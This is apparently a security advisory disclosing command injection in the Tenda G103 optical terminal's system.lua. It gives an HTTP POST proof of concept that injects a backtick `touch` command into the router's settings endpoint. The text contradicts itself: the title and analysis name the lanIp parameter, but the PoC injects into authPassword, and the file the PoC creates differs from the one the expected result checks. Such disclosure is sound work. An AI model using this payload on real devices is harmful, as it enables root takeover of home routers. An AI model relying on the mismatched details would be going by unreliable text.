 # Tenda G103 Command Injection Vulnerability in `lanIp` Parameter of `action_set_system_settings` (system.lua)

## Overview

A command injection vulnerability exists in the `action_set_system_settings` function of the `system.lua` file in Tenda G103 GPON optical network terminals. The vulnerability arises due to improper sanitization of the `lanIp` parameter, which is directly concatenated into system commands without validation. Authenticated attackers can exploit this to execute arbitrary system commands with root privileges, leading to full device compromise.

## Details



*   **Vendor**: Tenda

*   **Product**: G103_V1.0.0.5

*   **Firmware Version**: US\_G103V1.0la\_V1.0.0.5\_TDC01

*   **Firmware Download**: https://tenda.com.cn/material/show/2615

*   **Affected Component**: `system.lua` (LuCI controller)

*   **Affected Function**: `action_set_system_settings`

*   **Affected Parameter**: `lanIp`

*   **Vulnerability Type**: Command Injection

*   **Impact**: Arbitrary command execution, sensitive data leakage, device configuration tampering, or complete takeover

## Vulnerability Analysis

The `action_set_system_settings` function handles the `lanIp` parameter (used to configure the LAN interface IP address). The parameter is directly passed to system commands such as `ifconfig`, `fw_setenv`, and `uci` without sanitization or validation.

Key vulnerable code in `system.lua`:

(./imgs/0.png)

Attackers can inject arbitrary commands by including shell metacharacters (e.g., backticks `` ` ``, semicolons `;`, or `&&`) in the `lanIp` parameter. These characters are not filtered, allowing the injected commands to be parsed and executed by the system shell.

## Proof of Concept (PoC)

### Execute `touch` to Create a Test File



```
POST /cgi-bin/luci/;stok=c64c61744085716b924f3c034266e7c1/admin/system/set_system_settings HTTP/1.1
Host: 192.168.0.1
Content-Length: 40
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/cgi-bin/luci/;stok=c64c61744085716b924f3c034266e7c1/admin/system/
Accept-Encoding: gzip, deflate, br
Cookie: isLogin=true; isLogin=true; sysauth=ca14c877a3df6cdc740bf4bbef3f02c1; sysauth=; repeatTimes=0; isLogin=true
Connection: keep-alive
 
authPassword=1`touch$IFS/tmp/setting.txt`
```

#### Execution Steps:

1.  Send the above POST request with a valid `stok` (session token) and authentication cookies.

2.  Access the device (via CLI or another injected command) and verify the existence of `/tmp/lanip_inject.txt`.

#### Expected Result:

The file `/tmp/lanip_inject.txt` is created, confirming successful execution of the injected `touch` command.

(./imgs/1.png)
(./imgs/2.png)
